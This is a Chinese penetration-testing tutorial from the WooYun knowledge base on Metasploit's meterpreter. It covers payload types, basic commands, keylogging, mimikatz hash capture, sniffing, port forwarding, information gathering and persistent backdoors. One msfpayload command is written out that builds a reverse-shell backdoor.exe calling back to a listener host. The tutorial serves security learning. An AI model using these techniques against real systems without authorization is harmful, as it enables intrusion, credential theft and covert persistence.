# metasploit 渗透测试笔记(meterpreter 篇)

2014/06/10 12:34 | [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布") | [工具收集](http://drops.wooyun.org/category/tools "查看 工具收集 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x01 背景

* * *

meterpreter 作为后渗透模块有多种类型，并且命令由核心命令和扩展库命令组成，极大的丰富了攻击方式。 需要说明的是 meterpreter 在漏洞利用成功后会发送第二阶段的代码和 meterpreter 服务器 dll，所以在网络不稳定的情况下经常出现没有可执行命令，或者会话建立执行 help 之后发现缺少命令。 连上 vpn 又在内网中使用 psexec 和 bind_tcp 的时候经常会出现这种情况，别担心结束了之后再来一次，喝杯茶就好了。

## 0x02 常用类型

* * *

### reverse_tcp

path : payload/windows/meterpreter/reverse_tcp

```
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.130 LPORT=8080 X > ～/Desktop/backdoor.exe 
```







反向连接 shell,使用起来很稳定。需要设置 LHOST。

### bind_tcp

path : payload/windows/meterpreter/bind_tcp

正向连接 shell，因为在内网跨网段时无法连接到 attack 的机器，所以在内网中经常会使用，不需要设置 LHOST。

### reverse_http/https

path:`payload/windows/meterpreter/reverse_http/https`

通过 http/https 的方式反向连接，在网速慢的情况下不稳定，在某博客上看到 https 如果反弹没有收到数据，可以将监听端口换成 443 试试。

## 0x03 基本命令

* * *



常用的有

```
background：将当前会话放置后台
load/use：加载模块
Interact：切换进一个信道
migrate：迁移进程
run：执行一个已有的模块，这里要说的是输入 run 后按两下 tab，会列出所有的已有的脚本，常用的有 autoroute,hashdump,arp_scanner,multi_meter_inject 等。
Resource：执行一个已有的 rc 脚本。 
```

## 0x04 常用扩展库介绍

* * *



meterpreter 中不仅有基本命令还有很多扩展库，load/use 之后再输入 help，就可以看到关于这个模块的命令说明了。

## stdapi command

### 文件相关

stdapi 中有关于文件读写，上传下载，目录切换，截屏，摄像头，键盘记录，和系统相关的命令。 常用的当然就是文件操作及网络有关的命令。 通常我会用 upload 和 download 进行文件上传和下载，注意在 meterpreter 中也可以切换目录，当然也可以编辑文件。所以就不用运行 shell 再用 echo 写。



使用 edit 命令时需要注意编辑的是一个存在的文件，edit 不能新建文件。 输入 edit + 文件后就会调用 vi 编辑了。



### 网络相关

网络命令则有列出 ip 信息(ipconfig),展示修改路由表(route),还有端口转发(portfwd)。 比如 portfwd：


在建立规则之后就可以连接本地 3344 端口，这样远程的 3389 端口就转发出来了。

### 键盘监听



这里需要注意一下 windows 会话窗口的概念，windows 桌面划分为不同的会话(session)，以便于与 windows 交互。会话 0 代表控制台，1，2 代表远程桌面。所以要截获键盘输入必须在 0 中进行。可 以使用 getdesktop 查看或者截张图试试。否则使用 setdesktop 切换。



如果不行就切换到 explorer.exe 进程中，这样也可以监听到远程桌面连接进来之后的键盘输入数据。

### mimikatz

这个不多介绍，只是因为这样抓到的 hash 可以存进数据库方便之后调用，不知道有没有什么方法可以快速的用第三方工具抓到 hash/明文然后存进数据库。



这里是因为我的用户本身就没有密码。

### sniffer



就是不知道能不能把包保存在 victim 上，然后后期再下下来，待实战考证。

## 0x05 使用自定脚本

* * *

这里的脚本可以是 rc 脚本，也可以是 ruby 脚本，metasploit 已经有很多自定义脚本了。比如上面说过的 arp_scanner,hashdump。这些脚本都是用 ruby 编写，所以对于后期自定义修改来说非常方便，这里介绍一个很常见的脚本 scraper，它将目标机器上的常见信息收集起来然后下载保存在本地。推荐这个脚本是因为这个过程非常不错。可以加入自定义的命令等等。





`/.msf4/logs/`下保存了所有脚本需要保存的日志记录，当然不只这一个脚本。同样.msf4 文件夹下还保存了其他东西，比如输入过的命令，msf 运行过程的日志等。 Scraper 脚本将保存结果在`/.msf4/logs/scripts/scraper/`下。

## 0x06 持续性后门

* * *

metasploit 自带的后门有两种方式启动的，一种是通过服务启动(metsvc)，一种是通过启动项启动(persistence) 优缺点各异:metsvc 是通过服务启动，但是服务名是 meterpreter,脚本代码见图，



这里需要上传三个文件，然后用 metsvc.exe 安装服务。不知道服务名能不能通过修改 metsvc.exe 达到。 安装过程和回连过程都很简单



下次回连时使用 windows/metsvc_bind_tcp 的 payload 就可以。



## 0x07 后记

* * *

meterpreter 提供了很多攻击或收集信息的脚本，并且还有很多 API(具体参考官方文档)，及扩展。在对 ruby 代码理解的程度上，如果能根据目标环境和现状修改现有脚本或编写自己的脚本则能够极大的提高效率，获得预期的结果。

版权声明：未经授权禁止转载 [DM_](http://drops.wooyun.org/author/DM_ "由 DM_ 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [metasploit 渗透测试笔记(内网渗透篇)](http://drops.wooyun.org/tips/2746)
*   [Burp Suite 使用介绍（三）](http://drops.wooyun.org/tips/2247)
*   [Burp Suite 使用介绍（四）](http://drops.wooyun.org/tips/2504)
*   [nmap 脚本使用总结](http://drops.wooyun.org/tips/2188)
*   [charles 使用教程指南](http://drops.wooyun.org/tips/2423)
*   [Mimikatz ON Metasploit](http://drops.wooyun.org/tips/2443)